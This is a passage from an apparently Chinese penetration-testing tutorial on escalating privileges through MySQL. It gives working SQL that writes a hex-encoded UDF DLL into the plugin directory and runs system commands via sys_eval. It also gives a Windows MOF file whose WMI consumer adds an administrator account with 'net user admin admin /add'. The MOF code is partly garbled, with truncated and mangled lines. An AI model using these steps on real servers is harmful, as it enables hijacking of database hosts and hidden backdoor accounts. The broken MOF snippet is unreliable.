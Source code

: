 2. 确定mysql版本来确定要使用的udf版本(x64,x86) `show variables like "%version%";`

3. ```mysql
   use mysql;
   set @my_udf_a=concat('',dll的16进制);//将dll以16进制赋值给一个变量
   create table my_udf_data(data LONGBLOB);//创建表
   insert into my_udf_data values("");update my_udf_data set data = @my_udf_a;//将存储dll的的变量插入表中
   show variables like '%plugin%';//查看导出目录
   select data from my_udf_data into DUMPFILE '%plugin%/udftest.dll';//导出dll
   create function sys_eval returns string soname 'udftest.dll';//从dll中创建函数
   select sys_eval('whoami');//
   ```

**Tips:**

1. 4.1以前随意注册,无限制.

2. 在4.1到5之后创建函数时,不能包含`\`和`/`.所以需要释放到system32目录中.

3. 5.1之后需要导出到指定的插件目录,即`%plugin%`变量的位置,默认文件夹不存在,需要手动创建(利用NTFS流).
## MOF提权

> mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。有了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

**利用条件:**

1. secure-file-priv 为空.
2. mysql高权运行.

#### 步骤
1. 
   创建mof文件


   ```vb
   pace("\.rootsubscription")
   
   instance of **EventFilter as $EventFilter{    EventNamespace = "RootCimv2";    Name  = "filtP2";    Query = "Select * From **InstanceModificationEvent "
               "Where TargetInstance Isa "Win32_LocalTime" "
               "And TargetInstance.Second = 5";
       QueryLanguage = "WQL";
   };
   
   instance of ActiveScriptEventConsumer as $Consumer
   {
       Name = "consPCSV2";
       ScriptingEngine = "JScript";
       ScriptText =
       "var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user admin admin /add")";
   };
   
   instance of __FilterToConsumerBinding
   {
       Consumer   = $Consumer;
       Filter = $EventFilter;
   };
   ```
